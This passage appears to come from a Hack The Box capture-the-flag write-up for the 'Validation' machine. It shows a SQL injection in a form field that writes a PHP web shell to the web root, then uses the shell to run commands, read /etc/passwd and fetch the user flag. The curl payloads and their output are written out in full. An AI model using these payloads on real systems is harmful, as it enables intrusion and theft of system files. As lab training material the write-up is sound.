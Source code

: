 Now we are looking good. With the ability to write our own files, it's time to try and get a web shell:

```text
┌──(root💀kali)-[~/htb/validation]
└─# curl -v -d "username=pencer13&country=Belgium' union select '<?php SYSTEM($_REQUEST['cmd']); ?>' INTO OUTFILE '/var/www/html/pencer_shell.php';-- -" http://10.10.11.116
zsh: bad math expression: operand expected at `'cmd''
```

Too many speech marks and apostrophes, let's URL encode to get around it using [this](https://meyerweb.com/eric/tools/dencoder/) site to help:

```text
┌──(root💀kali)-[~/htb/validation]
└─# curl -v -d "username=pencer16&country=Belgium' union select %22%3C%3Fphp%20SYSTEM(%24_REQUEST%5B%27cmd%27%5D)%3B%20%3F%3E%22%20INTO%20OUTFILE%20%27%2Fvar%2Fwww%2Fhtml%2Fpencer_shell.php%27%3B--%20-" http://10.10.11.116
<SNIP>                                                            
┌──(root💀kali)-[~/htb/validation]
└─# curl -v --cookie "user=aeb3f86ccd45ea879d7eb7edbc682e3e" http://10.10.11.116/account.php
```

Ignoring the error in the html response again, we can now use our basic web shell to execute commands on the server:

```text
──(root💀kali)-[~/htb/validation]
└─# curl http://10.10.11.116/pencer_shell.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We can get the current user ID, we could also get the password file:

```text
┌──(root💀kali)-[~/htb/validation]
└─# curl http://10.10.11.116/pencer_shell.php?cmd=cat%20/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
<SNIP>
```

## User Flag

We can also get the user flag:

```text
┌──(root💀kali)-[~/htb/validation]
└─# curl http://10.10.11.116/pencer_shell.php?cmd=ls%20/home/htb
user.txt
                                                                                                                     
┌──(root💀kali)-[~/htb/validation]
└─# curl http://10.10.11.116/pencer_shell.php?cmd=cat%20/home/htb/user.txt
<HIDDEN>
```
